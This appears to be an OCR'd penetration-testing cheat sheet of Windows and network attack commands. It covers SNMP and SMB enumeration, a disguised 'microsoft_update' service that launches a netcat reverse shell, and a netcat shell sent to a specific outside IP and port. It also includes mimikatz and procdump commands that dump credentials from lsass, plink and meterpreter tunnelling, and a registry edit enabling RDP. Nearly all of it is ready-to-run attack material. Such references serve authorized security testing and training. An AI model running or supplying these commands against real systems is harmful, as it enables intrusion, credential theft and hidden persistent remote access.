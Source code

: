 enum4linux target

# SNMP Enumeration

snmpget -v 1 -c public IP

snmpwalk -v 1 -c public IP

snmpbulkwalk -v2c -c public -Cn0 -Cr10 IP

# Windows Useful cmds

net localgroup Users

net localgroup Administrators

search dir/s *.doc

system("start cmd.exe /k $cmd")

sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore

/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779

mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"

Procdump.exe -accepteula -ma lsass.exe lsass.dmp

mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"

C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits

C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits

# PuTTY Link tunnel

Forward remote port to local address

plink.exe -P 22 -l root -pw "1234" -R 445:127.0.0.1:445 IP

# Meterpreter portfwd

#https://www.offensive-security.com/metasploit-unleashed/portfwd/

#forward remote port to local address

meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141

kali > rdesktop 127.0.0.1:3389

# Enable RDP Access

reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0

